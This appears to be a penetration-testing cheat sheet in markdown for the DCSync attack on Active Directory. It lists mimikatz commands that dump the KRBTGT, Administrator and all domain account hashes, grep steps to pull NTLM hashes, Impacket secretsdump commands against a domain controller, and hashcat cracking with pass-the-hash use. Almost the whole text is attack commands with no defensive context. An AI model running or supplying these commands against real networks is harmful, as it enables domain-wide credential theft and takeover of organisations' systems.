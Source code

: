 # Credentials to look for:

### 1) Local admin rights on several machines

### 2) Service accounts that have delegate permissions

### 3) Accounts used for privileged AD Services (SCCM,WSUS,Exchange,etc.)

#### 1) mimikatz

#### 2) lsadump::dcsync /domain:DOMAIN /user:OUR_LOW-PRIVILEGE_AD_USERNAME

### Privileges: Replicate Directory Changes, Replicate Directory Changes All, Replicated Directory Changes in Filtered Set

### Usually, Administrators, Domain Admins and Enterprise Admins have this privilege in their accounts.

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::dcsync /user:KRBTGT_ACCOUNT

# DCSync every single account

#### 1) mimikatz

#### 2) log USERNAME_dcdump.txt

#### 3) lsadump::dcsync /domain:DOMAIN /all

#### 4) exit

#### 5) Download file

#### 6) cat FILE.txt | grep "SAM Username"

#### 7) cat FILE.txt | grep "Hash NTLM"

#### 8) Offline password cracking / Pass-theHash (Mimikatz)

# DCSync Remote

### Secretsdump.py on an account that is synced with the domain controller to dump hashes to PtH attack.

#### 1) python3 Impacket-Secretsdump.py -just-dc DOMAIN/AD_ADMIN_USER@DC_IP

#### 2) python3 Impacket-Secretsdump.py -just-dc-ntlm DOMAIN/AD_ADMIN_USER@DC_IP

#### 3) hashcat -m 1000 -a 0 hashes.txt /path/to/wordlist.txt

# DCSync

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `runas /user:eagle\rocky cmd.exe`                            | Start a new instance of `cmd.exe` as the user `eagle\rocky`.
| `mimikatz.exe`                                               | Tool used to implement the DCsync attack |
| `lsadump::dcsync /domain:eagle.local /user:Administrator`    | Command used in `mimikatz` to DCSync and dump the `Administrator` password hash |
